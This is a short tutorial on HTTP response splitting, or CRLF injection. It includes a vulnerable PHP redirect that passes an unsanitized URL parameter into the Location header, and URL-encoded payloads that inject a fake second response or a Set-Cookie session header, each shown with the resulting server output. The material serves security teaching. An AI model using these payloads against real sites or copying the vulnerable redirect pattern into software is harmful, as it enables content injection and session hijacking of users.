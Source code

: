 # HTTP Response splitting

## Attack tree

```text
1 Provide a URL with a complete second response, to be rendered in the browser.
2 Inject HTTP headers into the response (for example a Set-Cookie header)
```

## Examples

### Provide a url with a complete second response

In the application:

    header("Location: {$_GET['url']}");

Normal send request:

    http://example.org/redirect.php?url=http%3A%2F%2Fexample.org%2Ftarget.php

The response generated:
    
    HTTP/1.1 302 Found
    Server: Apache/1.3.33 (Debian GNU/Linux)
    Location: http://example.org/target.php
    Content-Length: 0

A browser receiving this response transparently requests the new resource (indicated in the Location header), and it 
is the response to this second request that is actually rendered in the browser.

So now attack with:
    
    http://example.org/redirect.php?url=http%3A%2F%2Fexample.org%2Ftarget.php%0D%0A%0D%0AHTTP%2F1.1+200+OK%0D%0AContent-Type%3A+text%2Fhtml%0D%0AContent-Length%3A+34%0D%0A%3Chtml%3E%3Cp%3EHacked%3C%2Fp%3E%3C%2Fhtml%3E

Generates:


    HTTP/1.1 302 Found
    Server: Apache/1.3.33 (Debian GNU/Linux)
    Location: http://example.org/target.php
     
    HTTP/1.1 200 OK
    Content-Type: text/html
    Content-Length: 34
     
    <html><p>Hacked</p></html>
     
    Content-Length: 0

### Inject Set-Cookie header

    http://example.org/redirect.php?url=http%3A%2F%2Fexample.org%2Ftarget.php%0D%0ASet-Cookie%3A+PHPSESSID%3D1234

This results in a response that sets a cookie:

    HTTP/1.1 302 Found
    Server: Apache/1.3.33 (Debian GNU/Linux)
    Location: http://example.org/target.php
    Set-Cookie: PHPSESSID=1234
    Content-Length: 0

And now you know the session identifier.

## Notes

HTTP Response Splitting or CRLF injection enables various attacks such as web cache poisoning, cross user defacement, 
hijacking pages with sensitive user information and cross-site scripting (XSS). 

If you can inject newline characters into the header, then you can inject new HTTP headers and by injecting an 
empty line, break out of the headers into the message body and write arbitrary content into the application's response.

You may need to use url encoding, or double url encoding, etc.

## Mitigations

* Sanitize input values